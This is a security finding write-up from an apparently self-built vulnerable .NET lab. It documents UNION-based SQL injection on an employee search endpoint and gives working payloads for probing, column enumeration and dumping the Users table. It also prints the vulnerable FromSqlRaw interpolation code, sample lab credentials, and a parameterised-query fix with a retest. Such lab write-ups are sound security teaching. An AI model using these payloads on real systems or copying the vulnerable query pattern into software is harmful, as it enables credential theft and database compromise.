




# Finding 02 — SQL Injection (UNION-based): Credential Disclosure via Employee Search

> Part of a self-built Application Security lab: a deliberately vulnerable
> .NET 8 Web API (Employee Management) that I attack, document, and fix.
> This finding covers the employee search endpoint.

| | |
|---|---|
| **Severity** | 🟠 High |
| **CVSS 3.1** | 8.8 — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **Category** | OWASP Top 10 A03:2021 – Injection · CWE-89 (SQL Injection) |
| **Affected endpoint** | `GET /api/employees/search?name=` |
| **Authentication** | Any valid user token (tested as a standard Employee) |
| **Tools used** | Postman |
| **Status** | Reported — remediation below |

---

## Summary

The employee search endpoint puts the `name` query parameter straight into a
SQL `LIKE` clause. By injecting a `UNION SELECT`, I pulled every row of the
`Users` table — including every password in plain text — out through the
employee search results, using a normal low-privileged account.

## Description

`GET /api/employees/search` filters employees by name. The filter query is
built with string interpolation, so the `name` value becomes part of the SQL
statement. Because the result set is returned to the caller, this is an
*in-band* injection: a `UNION SELECT` lets an attacker append rows from any
other table and read them directly in the response. Here I used it to read the
credential store.

This is the same root cause as Finding 01 (SQL injection), but a different
endpoint and a different, more serious outcome: mass data exfiltration rather
than just an auth bypass.

## Steps to reproduce

Authenticate first as any user (for example `alice` / `Password1`) and send the
token as a `Bearer` token. Then:

1. **Baseline** — a normal search returns employees (and already over-exposes
   salary and National Insurance numbers):
   ```
   GET /api/employees/search?name=a
   ```

2. **Confirm injection** — add a single quote to the value:
   ```
   GET /api/employees/search?name=test'
   ```
   The server returns a SQLite error (`unrecognized token`), proving the input
   reaches the SQL statement.

3. **Enumerate the column count** — needed to line up a UNION. Increase the
   `ORDER BY` index until it fails:
   ```
   GET /api/employees/search?name=zzz' ORDER BY 7 --
   GET /api/employees/search?name=zzz' ORDER BY 8 --
   ```
   `ORDER BY 7` succeeds; `ORDER BY 8` fails with *"1st ORDER BY term out of
   range - should be between 1 and 7"*. The database confirms there are exactly
   **7 columns**.

4. **Extract the credential store** — a 7-column UNION that reads the `Users`
   table:
   ```
   GET /api/employees/search?name=zzz' UNION SELECT Id, Username, Password, Role, 0, '', '' FROM Users --
   ```
   `%zzz%` matches no employees, so the only rows returned are the users, mapped
   into the employee fields.

The query the server runs for step 4:
```sql
SELECT * FROM Employees WHERE FullName LIKE '%zzz' UNION SELECT Id, Username, Password, Role, 0, '', '' FROM Users -- %'
```

## Proof of concept

**Baseline search — returns employee data (note the exposed salary and NI number)**



**Column enumeration — the database confirms 7 columns**



**UNION extraction — every account and password returned in clear text**



Response to the UNION request (`200 OK`), with usernames in `fullName`,
passwords in `email`, and roles in `department`:
```json
[
  { "id": 1, "fullName": "admin", "email": "Admin@123",  "department": "Admin",    "salary": 0, "nationalInsurance": "", "performanceNotes": "" },
  { "id": 2, "fullName": "alice", "email": "Password1",  "department": "Employee", "salary": 0, "nationalInsurance": "", "performanceNotes": "" },
  { "id": 3, "fullName": "bob",   "email": "Hunter2",    "department": "Employee", "salary": 0, "nationalInsurance": "", "performanceNotes": "" },
  { "id": 4, "fullName": "carol", "email": "Finance99",  "department": "Employee", "salary": 0, "nationalInsurance": "", "performanceNotes": "" }
]
```

## Impact

- Full disclosure of the credential store, with passwords in clear text,
  including the administrator account (`admin` / `Admin@123`).
- The UNION can target any table, so this is not limited to credentials — any
  data in the database can be read through the search response.
- Chains directly with Finding 01: an unauthenticated attacker uses the login
  bypass to obtain a token, then uses this endpoint to recover every real
  password, giving durable administrative access even after the login flaw is
  fixed.

## Severity

**High.** The attack is a single request and reveals the entire credential
store, but it requires a valid (any) user token, so it is not unauthenticated.
The disclosed plain-text admin password enables full read, modify, and delete
across the application, which is why integrity and availability are also rated
high.

CVSS 3.1 base score **8.8** — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`.

(For contrast, Finding 01 is Critical/9.8 because it needs no authentication;
this one requires any logged-in user, so it drops to High.)

## Root cause

The `name` parameter is concatenated into a raw SQL string and executed with
`FromSqlRaw`:

```csharp
// Controllers/EmployeesController.cs
var sql = $"SELECT * FROM Employees WHERE FullName LIKE '%{name}%'";
var results = _db.Employees.FromSqlRaw(sql).AsEnumerable().ToList();
```

There is no separation between the query and the data, so a `UNION SELECT` in
the input becomes part of the executed query.

## Remediation

Use a parameterised query so the input can only ever be data, never SQL. The
cleanest version uses LINQ, which parameterises automatically:

```csharp
var results = _db.Employees
    .Where(e => EF.Functions.Like(e.FullName, $"%{name}%"))
    .ToList();
```

If raw SQL is genuinely required, bind the value as a parameter rather than
interpolating it:

```csharp
var pattern = $"%{name}%";
var results = _db.Employees
    .FromSqlRaw("SELECT * FROM Employees WHERE FullName LIKE {0}", pattern)
    .ToList();
```

Related hardening (tracked as separate findings):
- The search response returns `salary`, `nationalInsurance`, and
  `performanceNotes` to any authenticated user. Return a DTO that exposes only
  the fields a caller needs (excessive data exposure).
- Passwords are stored in clear text. Store a salted hash, so that even a full
  table read does not hand over usable passwords.
- Escape `LIKE` wildcards (`%`, `_`) in user input to prevent wildcard abuse of
  the search filter.

## Verification (retest)

After the fix, re-send the UNION request:
```
GET /api/employees/search?name=zzz' UNION SELECT Id, Username, Password, Role, 0, '', '' FROM Users --
```
Expected result: the whole value is treated as a literal search string, so the
query looks for an employee whose name contains that text, finds none, and
returns `[]`. No `Users` data is returned. 

**Confirmed — retest passed, the attack is now blocked:**



## References

- OWASP — SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- OWASP Top 10 — A03:2021 Injection: https://owasp.org/Top10/A03_2021-Injection/
- PortSwigger Web Security Academy — SQL injection UNION attacks: https://portswigger.net/web-security/sql-injection/union-attacks
- CWE-89 — SQL Injection: https://cwe.mitre.org/data/definitions/89.html
- Microsoft Learn — Raw SQL queries in EF Core (parameterisation): https://learn.microsoft.com/en-us/ef/core/querying/sql-queries
